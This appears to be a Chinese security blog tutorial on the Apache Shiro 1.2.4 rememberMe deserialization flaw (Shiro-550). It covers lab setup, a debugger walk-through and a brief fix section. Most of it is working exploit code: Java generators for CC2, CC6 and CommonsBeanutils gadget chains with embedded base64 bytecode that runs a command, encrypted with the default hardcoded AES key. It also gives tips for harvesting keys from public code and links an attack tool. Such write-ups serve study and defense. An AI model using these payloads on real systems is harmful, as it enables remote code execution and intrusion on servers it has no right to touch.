

##  环境搭建

shiro版本：<=1.2.4

```xml
            <dependency>
                <groupId>org.apache.shiro</groupId>
                <artifactId>shiro-spring</artifactId>
                <version>1.2.4</version>
            </dependency>
             <dependency>
                <groupId>org.apache.commons</groupId>
                <artifactId>commons-collections4</artifactId>
                <version>4.0</version>
            </dependency>
            <dependency>
                <groupId>commons-beanutils</groupId>
                <artifactId>commons-beanutils</artifactId>
                <version>1.9.2</version>
            </dependency>
```

跟上一篇的`CVE-2010-3863`的环境差不多

config.ShiroConfig

```java
package com.example.demosec1.config;

import org.apache.shiro.realm.text.IniRealm;
import org.apache.shiro.spring.web.ShiroFilterFactoryBean;
import org.apache.shiro.web.mgt.CookieRememberMeManager;
import org.apache.shiro.web.mgt.DefaultWebSecurityManager;
import org.apache.shiro.web.servlet.SimpleCookie;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import java.util.HashMap;
import java.util.Map;

@Configuration
//初始化Shiro
public class ShiroConfig {
    @Bean
    //读取ini文件
    public IniRealm getIniRealm(){
        return new IniRealm("classpath:shiro.ini");
    }

    @Bean
    public DefaultWebSecurityManager getDefaultWebSecurityManager(IniRealm iniRealm){
        DefaultWebSecurityManager securityManager = new DefaultWebSecurityManager();
        securityManager.setRealm(iniRealm);
        return securityManager;
    }
    @Bean
    public CookieRememberMeManager rememberMeManager(){
        CookieRememberMeManager cookieRememberMeManager = new CookieRememberMeManager();
        cookieRememberMeManager.setCookie(rememberMeCookie());
        //cookieRememberMeManager.setCipherKey(Base64.decode("xxx"));
        // 默认是kPH+bIxk5D2deZiIxcaaaA==
        return cookieRememberMeManager;
    }

    @Bean
    public SimpleCookie rememberMeCookie(){
        SimpleCookie simpleCookie = new SimpleCookie("rememberMe");
        simpleCookie.setHttpOnly(true);
        simpleCookie.setPath("/");
        simpleCookie.setMaxAge(30);
        return simpleCookie;
    }

    //定义ShiroFilter,过滤器，实现鉴权
    @Bean
    public ShiroFilterFactoryBean getShiroFilterFactoryBean(DefaultWebSecurityManager defaultWebSecurityManager){
        ShiroFilterFactoryBean filter = new ShiroFilterFactoryBean();
        filter.setSecurityManager(defaultWebSecurityManager);

        Map<String,String> filterMap = new HashMap<>();

        // 设置拦截器，设置权限
        filterMap.put("/admin.html","authc, roles[admin]");
        filterMap.put("/secret.html","authc, roles[admin]");
        filterMap.put("/admin.html","authc, roles[admin]");
        filterMap.put("/**", "anon");

        filter.setFilterChainDefinitionMap(filterMap);

        // 设置默认登录界面和未验证页面跳转
        filter.setLoginUrl("/login.html");
        filter.setUnauthorizedUrl("/login.html");
        return filter;
    }
}


```

controller.UserController不变

service.UserService

```java
package com.example.demosec1.service;

import org.apache.shiro.SecurityUtils;
import org.apache.shiro.authc.UsernamePasswordToken;
import org.apache.shiro.subject.Subject;
import org.springframework.stereotype.Service;

@Service
public class UserService {
    public void checkLogin(String username, String password) throws Exception{
        Subject subject = SecurityUtils.getSubject();
        UsernamePasswordToken token = new UsernamePasswordToken(username, password);
        //设置显示RememberMe
        token.setRememberMe(true);
        subject.login(token);
    }
}


```

resource.static下的静态网页不变

## payload

shiro这个反序列化漏洞流程：

>得到rememberMe的cookie值 --> Base64解码 --> AES解密 --> 反序列化

shiro的特征：

>未登陆的情况下，请求包的cookie中没有rememberMe字段，返回包set-Cookie里也没有deleteMe字段
>
>登陆失败的话，不管勾选RememberMe字段没有，返回包都会有rememberMe=deleteMe字段
>
>不勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段。但是之后的所有请求中Cookie都不会有rememberMe字段
>
>勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段，还会有rememberMe字段，之后的所有请求中Cookie都会有rememberMe字段
>

```java
public class Shiro550{
    public static void main(String[] args) throws Exception {
        //byte[] payload = new CC().getPayload();
        //byte[] payload=new CB1().getPayload();
        byte[] payload=new Test().getPayload();
        // AES加密
        String key = "kPH+bIxk5D2deZiIxcaaaA==";
        byte[] byteKey = Base64.getDecoder().decode(key);
        AesCipherService aesCipherService = new AesCipherService();
        byte[] result = aesCipherService.encrypt(payload, byteKey).getBytes();

        System.out.println(new String(Base64.getEncoder().encode(result)));
    }
}
class Test implements Serializable{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static byte[] getPayload() throws Exception{
        Test test=new Test();
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(test);
        oos.close();
        return barr.toByteArray();
    }
}
```

我们先登录成功，能抓包显示出一个`rememberMe`的值，然后改值就可


##  分析

在`DefaultSecurityManager.createSbject`打上断点，然后进入`this.resolvePrincipals()`，这个方法是处理cookie的入口，开始调试



将payload写到`rememberMe`后


进入`resolvePrincipals`方法


进入`getRememberedIdentity`


进入`getRememberedPrincipals`，获取rememberMe主体


`getRememberedSerializedIdentity`方法来进行base64解码

然后进入`convertBytesToPrincipals`


`decrypt`方法，AES解密


`this.getDecryptionCipherKey()`,这个密钥是固定的` DEFAULT_CIPHER_KEY_BYTES`值


再进入`deserialize`,没有判断cookie是否合法，直接进行反序列化，实现一个RCE


##  CC2链构造payload

主要用的CC2链`PriorityQueue`触发`TransformingComparator`，触发`InvokerTransformer`,再调用`newTransformer`方法

```java
class CC implements Serializable{
    private static void setFieldValue(Object obj,String name,Object value) throws Exception{
        Field field=obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static byte[] getPayload() throws Exception{
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_name","z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InvokerTransformer("toString", null, null);

        Comparator comparator = new TransformingComparator( transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(templates);
        queue.add(templates);

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        return barr.toByteArray();
    }
}
```

## CC6构造payload

我们之前可以利用`Transformer`数组来进行构造payload

但是在shiro反序列化利用中，如果包含非Java自身的数组，则会出现无法加载类的错误

因为最后调用的是`transfom`方法，加上不能有数组，所以就可以使用`InvokerTransformer`类


直接反射执行`newTransformer`方法

```java
class CC6 implements Serializable{
    private static void setFieldValue(Object obj,String name,Object value) throws Exception{
        Field field=obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static byte[] getPayload() throws Exception{
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_name","z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer=new InvokerTransformer("toString",null,null);
        HashMap innerMap=new HashMap();
        Map lazyMap=LazyMap.decorate(innerMap,transformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,templates);
        HashMap expMap = new HashMap();
        expMap.put(tiedMapEntry,"z3eyond");
        lazyMap.remove(templates);
        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
        return barr.toByteArray();
    }
}
```

##  CB链构造payload

`priorityQueue`到`BeanComparator`,调用`TemplatesImpl`的`getOutputProperties()`方法

```java
class CB1 implements Serializable{
    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getPayload() throws Exception{
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_name","z3eyond");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        BeanComparator beanComparator=new BeanComparator("outputProperties");
        PriorityQueue priorityQueue=new PriorityQueue(2,beanComparator);
        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        setFieldValue(priorityQueue,"size",2);

        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        return baos.toByteArray();
    }
}
```

## 修复

shiro1.2.5更新必须手动指定aes key，其他不变，因此反序列化流程还是不变，如果开发者设置key为常见值也容易被爆破出来

那如何获取`AES`密钥

>- 默认(1.2.4以前)
>- 硬编码，直接反编译拿到
>- 搜集互联网上常见的shiro AES编码，如github搜索`setCipherKey(Base64.decode)`

## 漏洞检测

用别人的工具，输入AES密钥，然后配合cc攻击

```
https://github.com/SummerSec/ShiroAttack2
```

